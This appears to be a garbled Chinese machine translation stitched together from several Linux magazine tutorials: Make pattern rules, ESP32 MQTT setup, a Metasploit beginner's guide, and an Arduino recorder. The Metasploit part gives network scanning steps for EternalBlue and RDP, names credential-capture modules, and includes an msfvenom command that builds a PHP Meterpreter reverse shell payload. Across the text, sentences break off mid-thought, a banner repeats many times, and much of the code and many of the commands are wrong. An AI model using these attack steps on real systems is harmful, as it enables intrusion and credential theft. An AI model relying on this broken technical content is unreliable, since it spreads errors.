Make 类，程序将搜索以决定使用哪个规则来构建文件，当有多个匹配的隐式规则时，直到所有前提条件或其中一个依赖项发生变化。我们需要添加一个规则

Hello，由于我们没有为此规则提供配方，Make 将使用上面的模式规则来编译类，运行 `Hello.java`。正如之前，由于 `Hello.class` 被列为该类的依赖项，如果 `Hello.java` 被修改，它将被标记为过时。

## 伪规则

由于我们看到没有规则可以用于所有制作文件。例如：

```make
dnd.o : dnd_c.c dnd_header.h
gcc -c $< dnd.c
```

然而，也可以编写不与任何文件关联的规则。要做到这一点，我们只需要给规则一个名称，Make 就会运行它。例如，通常会在 `makefile` 中包含一个 `clean` 规则来执行

## 教程

## 核心 Linux

为了进行完全的清洁安装，请删除编译后的文件：

文件 `dvd_read.o`，因为 `dvd_read_o` 已经是隐式导入的目标了。

```make
clean :
	rm player *.o
```

这种机制对于将编译后的文件（例如 `.o` 对象文件）转换为另一个可执行文件的规则非常有效。但它对于从源文件构建文件的规则无效。例如，


在这种情况下，你可以通过以下命令运行规则：

```bash
$ make clean
```

> Make 的许多功能是为了响应程序员在命令行面临的真实问题而发明的。未附加目标（`target`）的规则被称为“伪规则（`phony rule`）”。你可以通过将其作为特殊规则 `.PHONY` 的依赖项来创建一个特定的伪规则。

```bash
$ PHONY : 
```

这一步是可选的，但由于以下两个原因，它非常有用处。首先是性能考虑：当 Make 确定是否可以使用隐式规则满足某个目标时，它会搜索 `Makefile` 中的所有规则以寻找生成正确目标的规则；通过 `PHONY`，Make 将跳过对该特定规则的检查。

我们可能决定直接使用 `gcc` 编译器来编译 `Java` 文件以修改代码：

记住这一点非常重要：如果我们在与目标相同的目录下创建一个同名的假文件，它将始终被标记为最新（`up-to-date`），因此创建该规则将不起作用。将目标设为伪规则会让规则每次都运行，即使在相同的目录下也是如此。

```make
% : java
```

在这种情况下，没有隐式规则可以处理 `java` 文件（因为它们是源文件）。我们仍然会遇到之前的问题：尝试从名为 `Hello` 的 `Java` 文件编译 `Java` 文件，以此此类推。

## 匹配任意规则 (Match-anything rules)

如所示，Make 有能够根据扩展名重新创建文件，并决定使用哪种规则来构建它。但某些类型的文件具有相同的扩展名，例如没有扩展名的程序和脚本，或者可以使用不同的扩展名。在这种情况下，我们可能希望编写如下所示的规则：

我们可以将匹配任意规则作为终端规则（`terminal`）。终端规则与普通规则的区别在于，普通规则可以使用其他规则来创建它，而终端规则是在冒号之前没有依赖的规则。

```make
% : java
$ gcc -o $*
```

这会将单个文件对象链接到可执行文件中。第一个符号 `%` 将匹配任何先决条件名称，因此被称为“匹配任意规则”。缺点是它也会匹配像 `player.c` 这样的源文件。如果此类规则尝试将 `player.c` 作为先决条件，由于它并不存在，它可能会尝试创建文件 `player.o` 等。这可能会导致性能问题。

关键点在于，该规则的预期结果是带有 `Java` 的源文件。由于系统中不存在 `Hello.Java` 文件，Make 将不会使用此规则来构建文件 `Hello`。

结合这一点，我们对匹配任意规则使用了一种特殊行为。如果一个规则可以通过某些隐式规则生成（例如，文件是由 `.c` 文件的隐式规则生成的），则匹配任意规则永远不会适用于它。这意味着 Make 将不会尝试通过读取来创建 `dvd_read.o` 文件

```make
PHONY: all clean java

%.o : %.c
	gcc -c -o $@ $<$

%.o : %.h
	gcc -c -o $@ $<$

player: player.o
	gcc -o player player.o

all: player

java:
	gcc -o Hello $@ Hello.java

clean:
	rm -f *.o
```


## 构建目标名称 (BUILT-TARGET NAMES)

`Java`。当我们编写匹配规则时，我们需要问自己，规则的先决条件是否是由其他规则构建的，或者我们期望它们存在于文件系统中（通常它们是第一类源）。在这种情况下，我们应该使用带有单冒号的终端规则；在第二情况下，我们应该使用带有双冒号 `::` 的终端规则

| 目标 | 说明 |
| :--- | :--- |
| `.PHONY` | 将此规则的所有依赖项视为伪目标，而不是文件 |
| `.DEFAULT` | 此规则的配方称为“默认”配方；如果它列为 `.DEFAULT` 的配方，当没有其他适用规则将使用默认配方 |
| `.IGNORE` | 如果目标是 `.IGNORE` 的先决条件，在制作该目标时忽略所有错误 |

## 双冒号规则 (Double-colon rules)

为了避免混淆，当每个规则使用时，你必须指定一个与单冒号不同的规则；意识到这一点是有用的，如果一个文件偶尔出现在 `makefiles` 中——特别是那些由脚本自动生成的 `Makefile` 中——单个文件可以目标多个不同的规则。例如，在某个实例中，我们写了一个带有单 `.class` 规则的模式规则。如果特定的，一个 `.java` 文件需要额外的 `.java` 文件才能构建，我们应该在单独的规则中指定这些先决条件，以确保每当这些源之一发生变化时都会构建 `.class` 文件：

## 自定义搜索路径 (own search paths)

*   `Hello::class Hello.java`
*   `PrintingFactory.java`

在这种情况下，`Hello` 类将是两个独立规则的目标。然而，这些规则中只有一个带有一个配方（`recipe`）。Make 允许一个文件成为多个规则的目标，但只允许这些规则中的一个拥有配方；不允许对同一个规则有不同的配方。



## MQTT 教程

第三部分

# 无需电脑利用 MQTTPower

使用 `Espressif ESP32`，这是一种廉价的单片系统微控制器，它带有 `Wi-Fi` 发送器

为每一个应用程序部署树莓派会非常昂贵；幸运的是有更廉价的模块。`Espressif` 的 `ESP32` 扩展了传奇 `ESP866` 的成功：它采用了老牌的 `Extensa CPU` 并扩展了一些功能（本文未讨论）。在中国购买时，所有这些费用可以低于 10 美元——与 `Arduino Uno` 相比，它在缩小尺寸方面还才刚刚开始。

与大多数其他微控制器供应商不同，`Espressif` 取消了 `IDE` 的优先级。相反，他们的开发环境是在传统的命令行环境中进行的。首先，从 `http://bit.ly/lud_esp` 下载实际编译器并将其放入。然后执行以下命令序列来安装一些包，并将编译器中的各种资源提取到主目录：

```bash
sudo apt-get install wget make
libcurses-dev flex bison gff python python-tools
mkdir -p /esp
cd /esp
tar -xzf ~/Downloads/xtensa-esp32-elf-linux64-v2.0-73-g02a801-5.2.0.tar.gz
```



上方左侧是家居自动化（在20世纪90年代）。这是 `Andy Stanford-Clark` 用来使用 `MQTT` 并解决其水分感染问题的原始捕鼠陷阱 `Arien Nipper`（左）和 `Andy Stanford-Clark`（右），是 `MQTT` 之父

理论上，可以使用 `/home/esp` 以外的路径。

然而，工具链在处理路径中的空格和其他特殊字符时非常挑剔，因此在实践中，最好将库和项目存放在 `~/esp` 目录下。

下载编译器是操作流程的一部分：`ESP32` 编程环境的一个有趣方面是，开发环境和标准库是分开维护的。由于这一点，名为 `ESP-IDF` 的项目必须从 `GitHub` 下载。

```bash
cd esp
git clone --recursive https://github.com/espressif/esp-idf
```

当两个库都下载完成后，需要工具链和其他实用程序来确找到它们的位置。这最好通过环境变量来实现，设置方法如下：

```bash
export ESP_HOME=$HOME/esp/esp-idf
export PATH=$PATH:$ESP_HOME/tools
export PATH=$PATH:$ESP_HOME/tools/bin
```

我从不喜欢在每个想要工作的终端窗口中编辑环境变量。

如果你倾向于传统的方法，可以随时自己编辑你选择的配置文件。现在好了，是时候下载一个示例程序了。`MQTT` 库的开发者提供了一个详细的 `Wi-Fi` 示例，可以通过 `GitHub` 获取。

```bash
taman:~/esp git clone --recursive https://github.com/toniaset/esp32-mqtt mqtt
```

当此命令执行完成后，文件夹结构将如图 1 所示。

## 配置之舞

`ESP32` 项目通过 `Makefile` 编译：这是一个构建库数据等或或少的复杂过程（因此由 Make 编译）。然而，与在 `ESP-IDF` 中一样，开发者提供了一个示例项目，这使得人们可以很轻松地设置配置。

为了开始使用 `ESP32`，我们需要找到分配给设备的串口转 `USB` 芯片地址。这可以通过查看系统日志来实现，开发板会向我们显示它：


```bash
taman:~/esp $ dmesg
[ 4537.310488] cp210x-1.7.1.0 cp210x converter detected
[ 4537.310710] usb 1-2 cp210x converter now attached to tUSB0
```



> 就像在 OpenWRT 中一样，图形界面使得修改各种设置变得更容易

`menuconfig` 配置包含了命令行中的所有有用信息。完成后，使用 `Save` 选项并接受预定义的路径以将配置文件提交到项目中。

在实际部署之前，你需要将你的账户添加到守护进程组中 - 即你自己，服务详情需要超级用户。

```bash
taman:~/esp/future# sudo adduser tamlan detail
Adding user = taman:~/esp/sample#1$ sudo root
```

接下来，更改工作目录使其与下载的项目根目录匹配，并输入该命令启动服务器。在完成之前，它将无法工作，因为还需要一些额外时间 - 在图形用户界面就绪之前，需要编译大量的库和辅助对象。完成后，它将如图 2 所示呈现。原则上，按照它操作即可，因为你知道 OpenWRT 如何使用光标键导航并激活用户。

| 关于用户的故事。 | 在选择组件时操作 ESP32， | 两种完全不同且不兼容的类型。 | 第一种 ESP-IDF，它是原生的。这里安装了用于 ESP32 的语言实现。 |

## MQTT 教程

> 没有遗嘱的死亡

> 遗嘱的失败并不意味着强制；MQTT 客户端曾由于客户端包故障而丢失“身份”，当代理重连它时，它会飞向更绿的草地，而遗嘱将保留。

通过按 `Return` 键选择选项。完成后忘记保存更改 - 如果必须从头重来，那就不这么说了。

### 查看代码

MQTT 示例的实际项目结构非常有趣；除了包含入口点的主文件夹外，包含 MQTT 驱动程序的 `components` 文件夹也是为了。为此，请用你的代码编辑器打开它。ESP32 微控制器的 MQTT 客户端配置通过 `mqtt_settings` 实例完成。在我们的示例中，它看起来如下：

```c
mqtt_settings = {
#if CONFIG_MQTT_SECURITY_ON
    port = 1883, // 加密
#else
    port = 1881, // 未加密
#endif
    .client_id = "mqtt_client",
    .username = "",
    .password = "",
    .clean_session = 0,
    .keepalive = 120,
    .lwt = "/status",
    .lwt_msg = "offline",
    .qos = 0,
    .retain = 0,
    .connected = connected_cb,
    .disconnected = disconnected_cb,
    .reconnect = reconnect_cb,
    .subscribe = subscribe_cb,
    .publish = publish_cb,
    .data = data_cb
};
```

在许多情况下，编译过程将由于连接结构中存在异常成员而失败。打开 `main.c` 并简单删除设置“遗嘱”的命令 - 我们很快会查看这些。完成后，保存更改。接下来烧录写入程序。

```c
reconnect_cb = reconnect_cb;
```

`make` 之后，命令开始编译。在大多数情况下，第一次运行将花费更长时间，因为必须编译整个库。完成后，你可以像所示一样启动程序。

### 查找问题

在微控制器代码中查找错误通常像 Visual Studio 中的调试器那样容易察觉。通过像 Logcat 这样的日志系统来缓解。如果你仔细查看 `main.c` 的内容，将看到选项的选择。输出信息通过监控完成 - 注意日志框架强制重启微控制器。

> 即使在极端延迟的情况下，Mosquitto 目前不支持加密，因此拒绝连接。由于以下错误：

```
[MQTT INFO] Connecting to server 192.168.1.22:8883
[MQTT ERROR] Connect failed
```

通过按 `(Ctrl+C)` 可以终止连接。解决问题很困难；设置在 `components/include/mqtt_config.h` 中。打开文件，以及其他参数，定义将启用：

最重要的更改是更新主机字符串，如果你的 Wi-Fi 有互联网。然而，连接到本地实例需要调整。其他事件通过回调函数处理，允许 CPU 运行任务。其他 MQTT 功能如连接、用户名和其他包含在 `menoconfig` 中，记住已禁用。使用光标键导航可能是可能的。需要帮助，输入 `?`



ESP32 测试

```c
#include <stdio.h>

#define CONFIG_MQTT_PROTOCOL 
#define CONFIG_MQTT_SECURITY_ON 1
```

只需更改 `CONFIG_MQTT_SECURITY_ON` 的值即可解决问题：定义 宏仅仅检查变量的存在并忽略其值。解决问题的唯一方法是移除定义 - 编译后，成功的连接将如图 3 所示。

### 处理等待

真实网络在最坏情况下有失败的技巧。通过服务连接的客户端可能会随时消失。MQTT 使用一个名为“遗嘱”的概念解决了这个问题。

> 就像真正的遗嘱一样，代理在连接过程中创建遗嘱语句。当客户端消失时，此消息发送给所有感兴趣的人。

使用 `mqtt_app_main.c` 并修改与遗嘱相关的设置：

```c
mqtt_settings = {
  keepalive = 10,
  lw_topic = "Lwtchannel",
  lw_msg = "ESP32",
  lw_qos = 0,
  lw_retain = 1,
}
```

通过检查 `keepalive` 值来检测客户端断开，直到允许代理断开。在客户端侧，keepalive 在超时之前通过发布进行管理。

无论如何，ESP32 MQTT 库中的错误目前阻止了负载的交付。这是由 MQTT 管理的 - 如果在连接第一次设置配置并且仍然活动，你的程序将输出：

```
taman:~$$ - sudo service mosquitto stop
[sudo] password for user:
mosquitto stop/waiting
taman:~$$ - sudo mosquitto
150483418: mosquitto version 1.4.12 (build Sat 27, May 2021 21:38:35 +0000) starting
```

即使 ESP32 断开了电源。等待时间过期后，将发布到主代码中的以下 pop：

```
1504834152: Sending PUBL mosquitto/1629-(id, qos 0, ret 0)
(0 bytes)
```

即使在极端丢失的情况下，Mosquitto 也会缩写 - 我们看到一系列带有长度的点，在我们的案例中。这个问题是由一个中的错误引起的



```
MQTT INFO Starting task
MQTT INFO: Connecting to server 192.168.1.22:8883
Connected to server 192.168.1.22
MQTT INFO: Creating thread
MQTT INFO: Subscribing to topic '/test/', id: 1
MQTT INFO: Sending ..12 messages
MQTT INFO: Publishing query, length: 15, queue(0/4096)
MQTT INFO: /schedule
MQTT INFO: Read len 1
MQTT INFO: deliver_payload
0 bytes /test
```

## 使用最佳

MQTT 与所有技术一样，并不是无懈可击的。然而，在各种主机之间交换数据可能会有一些痛苦。在使用了各种操作系统、处理器架构和编程语言的系列中；如果它们能够可靠地相互通信，MQTT 代理具有统一的力量。

为了让 MQTT 在实践中成功，需要架构上的厚度。为了主题的稳定结构，你必须考虑哪些信息应该进入负载。拥有巨大的负载可能会通过驱动处理器和可用的小内存导致系统锁定。

另一方面，最近特定的平台在当另一个平台出现时也会引起麻烦。尽管如此，部署 MQTT 是明智的，如果没有它，你将担心负载设计和实际基础设施。

> 在你的工作站站点上方

192.168.1.12

* 星号带有

www.linuxukser.com 43


# 教程

## 计算机安全


### (不那么安静的) Metasploit 入门指南

#### 学习渗透测试、漏洞利用、Shell 码、反向 Shell 以及其之间所有内容的基础知识

**Toni Castillo Girona**

拥有软件工程学位和计算机安全硕士学位，目前在加泰罗尼亚地区的一所私立大学担任支持专家。

欢迎访问 https://dbiseaux.upc.es 阅读他的博客。

`Metasploit` 是一个强大且易于使用的渗透测试框架，被安全爱好者和专业人士广泛使用。它用 `Ruby` 编写，所以如果你熟悉 `Python`，你会感到如鱼得水。在 `Metasploit` 中，框架由六种不同类型的模块（`Ruby` 脚本）组成：漏洞（`Exploits`）、载荷（`Payloads`）、编码器（`Encoders`）、`NOPs` 和辅助模块（`Auxiliaries`）。漏洞利用将载荷传输到受漏洞主机，允许我们获取系统的立足点。利用漏洞的目标是隐蔽的，因为这是利用的目的。对于内存损坏，你可能需要一个 `NOP-sled` 来帮助漏洞利用工作。一旦你获取了系统，就可以使用载荷获取权限，但不是持久的。辅助模块用于扫描、`DoS` 攻击、攻击……只要你能想到的。

设置要扫描的 `CIDR` 地址（例如 `192.168.1.0/24`）并增加线程数以加快过程。最后，设置一些要扫描的端口（例如 `21`, `22`, `23`, `80`, `443`, `8080` 等）：

```
use msfscanner/scanner/tcp
set RHOSTS 192.168.1.0/24
set THREADS 1
set THREADS 50
```

考虑到所有影响 `Samba` 的漏洞（如永恒蓝），能够枚举你网络上的服务器将是非常好的，你不是吗？处理多个服务器比一个一个地执行好得多；打开新终端并执行：

```
msfconsole -x "use msfscanner/scanner/smb/\nset smb_version;\nset RHOSTS 192.168.1.0/24;\nset THREADS 50\nrun"
```

一旦扫描完成，使用 `msb_sm17_010` 模块。

# 资源

- `Parrot Security` (完整版)
  - https://www.parrot.org/download-full.iso

- 学习如何安装和启动 `msfconsole`
  - https://metasploit.com/parrot/

如果你喜欢练习一下，可以从这里处安装 `Metasploitable 3`：https://github.com/rapidit/metasploitable3


| IP 地址 | 名称 | 操作系统 | 版本 | 服务 | 端口 | 用户 | 更新时间 | 状态 |
|---|---|---|---|---|---|---|---|---|
| 192.168.1.10 | 未知 | `Linux` | | | | | 2 分钟前 | 已加载 |
| 192.168.1.11 | `winadmin` | `Windows` | | | 1 | | 3 分钟前 | 已洗牌 |
| 192.168.1.25 | 未知 | | | | 1 | | 5 分钟前 | 已扫描 |

上面谁说你不能享受功能完备的 `GUI`？这里的答案是确定哪些 `SMB` 服务器受到“永恒蓝”漏洞的影响（使用 `msfconsole` 获取）。这次我们只对端口 `TCP/445` 的服务器感兴趣（通过之前的枚举获得）。`Metasploit` 允许你设置 `RHOSTS`，然后使用 `-R` 标志运行 `scanner/rdp`。检查你想使用的模块：`use auxiliary/scanner/smb/msf17_010`。然后使用服务 `-p 445 -S -R` 运行枚举的主机。现在使用 `m112_vulnerability` 针对这些主机进行测试。

渗透测试也是关于寻找弱点，通常意味着寻找遗留或过时的系统。如果私有网络上有任何数量 `RDP` 服务，你也应该包含在内。如果没有，则使用 `auxiliary/scanner/rdp_scanner`。将 `RHOSTS` 设置为你的网络 `CIDR` 块，例如 `192.168.1.0/24`，然后使用 `-R` 运行模块。你可以使用 `auxiliary/scanner/rdp112_028_check` 获取枚举结果，然后使用 `m112_0vulnerability` 模块，服务 `-p 3389 -F`。最后，在寻找我们检测到的网络时，我们尝试寻找 `UDP` 服务。通常情况下，我们通过利用常用 `UDP` 服务发现漏洞系统。是时候使用 `auxiliary/scanner/discovery/udp_web_scanner` 扫描网络此类服务。如果你运气好，你会获得一些打印机或其他嵌入设备的漏洞。这些信息在稍后寻找已知漏洞时可能很有用。

```
msfconsole
```

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################

## Metasploit Framework v6.3.0-rc4

### 这是一个开源漏洞利用框架

################################################################


## Metasploit Framework `v6.3.0-rc4`

### 这是一个开源漏洞利用框架


# Metasploit Framework v6.3.0-rc4

## 这是一个开源漏洞利用框架

## 教程

## 计算机安全

### 尝试 Metasploable

我们更倾向于使用旧的 Distbuster（包含在 Parrot 系统中），但你可以使用 Metasploit 作为辅助工具/扫描器/`http_scanner`。设置 `RHOSTS`。现在，更改默认字典：`set DICTIONARY=/usr/share/wordlists/distbuster` 并更改线程数以加速破解：`set THREADS 10`。在开始攻击之前，你应该从字典文件中移除不需要的命令。

你的伪造 DNS 服务器，导航到任何网站，然后就会到达 `TARGETDOMAIN`。一旦完成后，只需杀掉伪造 DNS 服务器即可：`jobs -1`。你可以随时通过执行 `jobs` 来获取正在运行的任务列表。这里有一份你某些时候可能需要的模块列表：`modules/auxiliary/server/capture/*`。如你所见，它们都是直观的模块，旨在窃取 IMAP、HTTP Auth、FTP、POP3 和 SMTP 的凭据。

Metasploit 实现在一个非常惊人的虚拟机中。因此，你可以在不攻击自己电脑的情况下使用它。你可以在 `https://github.com/metasploit/metasploit-framework` 免费获取，其中包含所有可用模块，用于找到正确的 Metasploit 模块。

我们已经接触了 Metasploit 模块的边缘。以下内容对你有所帮助：

## Meterpreter 是 Metasploit 中最好的 Payload 之一

涵盖了方方面面，从破解攻击到文件上传，以及各种方法、技巧等等。

每个人都有适合的！访问 `https://www.offensive-security.com/metasploit-unashed/auxiliary-module-reference/` 查看官方的 Metasploit 辅助模块参考。

## 网络漏洞利用


## 当暴力破解失败时

当暴力破解失败时，你也可以学习漏洞，例如 SQL 注入、代码拼写错误。消息是，Metasploit 在这非常擅长。有伪造的 DHCP 和 DNS 服务器、SMB、HTTP 和 FTP 漏洞利用。你可以建立自己的伪造 DHCP 服务器或伪造 DNS 服务器，使某些域名被欺骗到你自己的 IP 地址。

Metasploit 有很多漏洞利用。有些可以在数据库中（`-in-db`）或网上找到（但我们建议至少在你的实验期间仅使用 Metasploit 自带的漏洞利用，以避免配置混乱）。除非你要使用，否则不需要特定的漏洞利用。（注意：你可以通过输入 `ls -1 /share/metasploit/exploits/` 来查看漏洞利用列表，查看根据之前的枚举可能帮助你或引导你获得权限的漏洞。）

Metasploit 模块现在：`use auxiliary/scanner/frameworkdays`。如果你想通过绕过任何这些请求来获取数据库 `db_access.db`。设置以下选项：`set TARGETDOMAIN`、`set dbHOSTS`、`set ATTACKTARGET`、`set RHOSTS_YOUR_IP`。在运行模块之前，如果你想隐藏身份，必须用 `sudo` 或 `su` 执行 `msconsole`。在后台运行它：`jobs -1`。现在你的任务将是连接到监听查询。一旦你需要一个在端口 TCP:4484 上监听的选项：`-n 88`。最后，

Metasploit 有几种类型的 Payload：有些是内联的（Inline），有些是阶段性的（Staged）。根据经验，内联 Payload 是受欢迎的，因为它们可以用于任何地方来完成任务。Stagers 和 Staged 密切相关：`fetch` 会建立一个反向连接通道来下载 Payload。

考虑一下：在处理 Payload 和模块时，通常限制比你想象的要，所以有时可以直接交付一个内联 Payload 并获得一个 shell。

Metasploit 中最好的 Payload 之一是 Meterpreter。它可以用于不同的系统和架构，包括 JavaScript、PHP 和 Python。在你的 Payload 内部，你可以打开一个虚拟终端。使用 `msfven` 模块在 Meterpreter 会话中执行命令：`msfven -payload meterpreter get the interpreter`。明智地选择是重要的，当我们解释时：

```
Process 20694 created
[1] -help : type python, path="/bin/bash" -c
[1] : Permission denied
[1] : -help sample setup success
[1] : disabling SNMP & wait
[1] : waiting for the timer
[1] : getting root
[1] : should be root now
[1] : should be root - I we get root
```

对吧？当框架工作时，事情往往会变得非常信息化！注意了！

* Metasploit *


服务器，你可能需要使用 PHP Meterpreter Payload。让我们练习一下。在你的 Parrot VM 中启动 Apache2：`/etc/init.d/apache2`。假设你已经找到了一种将 `php` 上传到服务器的方法。下一步是如何获取一个功能完整的 shell。PHP Meterpreter 反向 shell！要的第一的事情是生成它；需要一个新 shell 并运行：

```
python3 -c 'import pty; pty.spawn("/bin/bash")' -c
```

变得更棒了，不是吗？你可以将此会话放入后台：输入 `background`。你完成该会话了吗？然后杀掉它：`-s 1`。这释放了 Meterpreter 的所有可能性；你可以加载/上传额外的插件、上传文件，并在 Windows 上截屏！

```
msfvenom -payload php/meterpreter/reverse_tcp -LHOST=127.0.0.1 LPORT=4444 -o payload.php
```

## 教程

# Arduino

## 第二部分：Arduino 录音机——将你的项目变为产品

按钮、LCD 显示器和硬件中断将把这个项目变成一个易于用户的产品原型。

### Alexander Smith

他是一位计算物理学家。Alex 向研究生们教授 Arduino，并不鼓励人们手动进行实验室工作。

在本教程的第一部分中，我们使用组装的麦克风电路和电阻分压数模转换器创建了一个录音机风格的设备，它具有语音录制和回放功能。录音质量本接近电话水平，但我们希望获得实时反馈。回放变得即时时，且只会播放整段录音。

在教程的这一部分，我们将向你展示如何将这个设备——考虑到组件价格如此低——变成一个可以被用户轻松控制的设备。如果在一个印制电路板上组装并作为 DIY 套件出售，只要有人有意，该项目甚至可以成为一种商业产品。

在教程结尾留下的电路基础上，你将首先将 Arduino 连接到一系列按钮，用户可以通过这些按钮通过存储的音频录制来控制设备的模式和电路。你将编写一个外部中断，使用用户的输入优先于任何正在进行的任务。通过添加一个 LCD 向用户提供反馈，他们将能够控制完成的设备。

### 创建物理用户界面

首先为电路获取一些基础组件：至少五个电阻（100 欧姆即可）和至少一块干净的面包板，或者在我们在上一个教程中使用的数模转换板上使用大约 30 行连续的行。将按钮放置在面包板的中央脊脊上，使连接点位于两侧。每个按钮的引脚数量取决于按钮的样式，但如果超过两个，首先确定当按钮被按下时形成了哪些连接是重要的。



### 资源

- `Arduino Mega`
- 面包板
- `LCD` 显示器
- `LED`
- 按钮
- 电阻


可用的教程文件：`filesio.co.uk`

按钮按下时。你应该安排每个按钮，使得面包板上任意两行（跨越脊脊）与按钮的“两侧”之间的连接在开始时是电隔离的。如果你不确定哪些引脚由按钮连接，请用万用表连续测试它们。

在引线的一侧，将电阻连接到沿面包板边缘运行的平行轨，在按钮的另一个“侧”，连接到面包板的负极轨。`LED` 是有方向的，因此以正确的方式放置它们非常重要。长引脚应该连接到电路的正极，短引脚指向负极。如果 `LED` 长度相同，请查看内部两个金属部分之间是否有脊线。此脊线在正引脚处应该更高。


## 连接 Arduino

